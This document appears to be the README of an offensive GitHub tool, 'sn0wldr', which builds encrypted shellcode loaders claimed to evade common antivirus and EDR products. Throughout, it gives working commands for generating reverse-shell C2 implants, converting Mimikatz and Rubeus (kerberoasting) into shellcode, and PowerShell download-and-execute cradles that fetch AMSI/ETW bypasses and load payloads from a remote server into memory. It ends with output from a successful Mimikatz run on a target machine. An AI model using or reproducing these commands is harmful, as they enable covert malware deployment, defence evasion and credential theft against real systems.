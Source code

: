 # sn0wldr

## This is used to generate a AV bypassed sc loader.

up to test day, most common AVs can be bypassed: Windows defender, ATP, CS Falcon, Carbon Black, Red Canary, Cylance and McAfee.

### Install MONO when using Kali Linux / Debian Based Distributions

```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt-get install mono-complete
```

### Install MONO when using Ubuntu (tested for 22.04)

```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/ubuntu stable-focal main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt install mono-complete
```

### Currently supporting the following C2 plateform (It is now should be able to support any C2 if shellcode is provided):

- Meterpreter
- Covenent
- Sliver
- Cobalt Strike

### Feature

- Process Hollowing
- Behaviour detection bypass
- Random AES encryption
- Rewrite to use D/Invoke direct syscalls
- Add a new haloloader_template to use [SharpHalos](https://github.com/GetRektBoy724/SharpHalos), HaloGates direct syscalls methods to load shellcode

### Guide

1. Generate shellcode for supported C2 implant in raw format (this is acutally can be used to load any payload in raw shellcode format):
   
For Sliver:

Due to the latest Sliver has shellcode encoding enabled by default which somehow break the halogate loader, so need to disable it when generate the shellcode by issue `-G`. Evasion and Obfuscation can both be enabled for better EDR bypass:

```
### To Generate a Sliver implant shellcode without obfuscation:
### For latest Sliver, it has shellcode encoding enabled by default which somehow break the halogate loader, so need to disable it when generate the shellcode by issue "-G". Evasion and Obfuscation can both be enabled for better EDR bypass: 
# [server] sliver > generate -N sliver --mtls 10.0.0.145 -b 10.0.0.145 -e -G -f shellcode --save /root/Codes/sn0wldr/input/
# [*] Generating new windows/amd64 implant binary
# [!] Symbol obfuscation is disabled
# [*] Build completed in 00:01:25
# [*] Implant saved to /root/Codes/sn0wldr/input/sliver.bin
#
### Move the sliver.bin to folder input if required, then run the autogen script.
```

For Meterpreter:

```
### To Generate a Meterpreter implant shellcode without obfuscation:
# for x64
# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
# for x86
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
### Move the meterpreter.bin to folder input if required, then run the autogen script.
```

For CobaltStrike:

```
### To Generate a CS implant shellcode without obfuscation:
# Attacks -> Packages -> Payload Generator
# Choose Raw in Output area.
### Move the cobaltstrike.bin to folder input and rename to cobaltstrike.bin, then run the autogen script.
```

For any sharp tools, thanks to TheWover's cool tool [Donut](https://github.com/TheWover/donut), we can convert any Sharp EXE file into raw shellcode then used into this loader:

Such as Mimikatz:
```
### To Generate shellcode from the EXE using donut:
┌──(root㉿average-student)-[/opt/donut_v0.9.3]
└─# ./donut -e 3 -a 3 -b 1 -f 1 -x 1 -p "coffee" -o /root/myCodes/sn0wldr/input/other.bin ./mimikatz.exe

  [ Donut shellcode generator v0.9.3
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "./mimikatz.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Parameters    : coffee
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP     : none
  [ Shellcode     : "/root/myCodes/sn0wldr/input/other.bin"
                                                                                       
```

Or Rubeus:
```
┌──(root㉿average-student)-[/opt/donutv1]
└─# ./donut -e 3 -a 2 -f 1 -x 1 -b 3 -p "kerberoast /simple /nowrap /consoleoutfile:C:/Windows/Tasks/rub_out.txt /outfile:C:/Windows/Tasks/krb_hashes.txt" -o /root/myCodes/sn0wldr/input/other.bin --input:/var/www/html/PowerSharpLoader/x64/Rubeus.exe 

  [ Donut shellcode generator v1 (built Mar  3 2023 13:39:03)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "/var/www/html/PowerSharpLoader/x64/Rubeus.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : .NET EXE
  [ Parameters    : kerberoast /simple /nowrap /consoleoutfile:C:/Windows/Tasks/rub_out.txt /outfile:C:/Windows/Tasks/krb_hashes.txt
  [ Target CPU    : amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "/root/myCodes/sn0wldr/input/other.bin"
  [ Exit          : Thread

```

2. Move the generated shellcode bin file to `input` folder, and rename it as format: `<c2type>.bin`

3. Run the autogen script `autogen_loader.sh`, wait for couple of minutes and check the generated encrypted EXE in the output folder.

```
┌──(root💀TW-PenTestBox)-[~/myCodes/sn0wldr]
└─# ./autogen_loader.sh -h
[*] Usage: ./autogen_loader.sh -t <c2type> -a <target_os_arch> -s <syscall_type>
[*] Exg..: ./autogen_loader.sh -t sliver -a x64 -s halogate

[!] Make sure the shellcode bin file located in input folder and named as <c2type>.bin
[!] Currently c2type only support the following four:
[!] 	sliver|meterpreter|cobaltstrike|covenant
[!] Current directly syscall methods only support the following two:
[!] 	dinvoke|halogate
```

4. Since the generated executable file is Sharp Assembly, it can be chained with the tool [PowerSharpLoader](https://github.com/F4l13n5n0w/PowerSharpLoader) to load remotely into memory without touch disk, as shown in the following example:

```
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/etw.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));
Invoke-LoadAssembly -AssemblyUrl https://<your_server>/halosli64x2.exe -Command ""
```

5. The following shows the successful mimikatz execution on the target Windows 10 machine:

```
PS C:\Users\tester\Downloads\test> Invoke-LoadAssembly -AssemblyUrl "http://192.168.174.150/sn0wmimicoffee.exe" -Command ""
[mySharphalo.UsageExample]::Main($Command.Split(" "))
[+] handle 0D6C! meow executed!

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz #
```

### To Do

- Add bananameowloader for even better AV bypass

